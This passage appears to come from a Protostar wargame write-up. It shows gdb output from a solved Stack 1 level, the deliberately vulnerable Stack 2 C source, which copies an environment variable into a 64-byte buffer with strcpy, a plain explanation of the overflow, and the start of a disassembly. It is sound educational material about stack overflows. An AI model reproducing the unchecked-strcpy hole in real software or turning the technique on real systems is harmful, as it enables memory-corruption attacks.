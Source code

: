 ```
0xbffff730:        0x41414141        0x41414141        0x41414141        0x41414141
0xbffff740:        0x41414141        0x41414141        0x41414141        0x61626364
(gdb) c
Continuing.
you have correctly got the variable to the right value
Program exited with code 067.
```

---

## Stack 2

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable; //*
    variable = getenv("GREENIE");
    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\\\\n");
    }
    modified = 0;
    strcpy(buffer, variable);
    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\\\\n");
    } else {
        printf("Try again, you got 0x%08x\\\\n", modified);
    }
}
```

The code has a variable called 'variable'. This exits with an error if the variable is null. If it is not null then another variable called 'modified' is set to 0 after which the variable's value is copied via strcpy to buffer. Strcpy copies the whole string into the buffer irrespective of the buffer size. Therefore, idea seems to be to set the env variable first to pass first test case then to modify or breach the content area of the variable 'modified' in the stack using overflow string as that which is the value of the env variable. Initially setting the env variable to a bunch of A's to locate easily.

```
user@protostar:~$ export GREENIE="AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
user@protostar:~$ printenv GREENIE
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Disassembling the executable in gdb.

```
(gdb) disas main
Dump of assembler code for function main:
0x08048494 <main+0>:        push   ebp
0x08048495 <main+1>:        mov    ebp,esp
0x08048497 <main+3>:        and    esp,0xfffffff0
0x0804849a <main+6>:        sub    esp,0x60
0x0804849d <main+9>:        mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:        call   0x804837c <getenv@plt>
0x080484a9 <main+21>:        mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:        cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:        jne    0x80484c8 <main+52>
0x080484b4 <main+32>:        mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:        mov    DWORD PTR [esp],0x1
```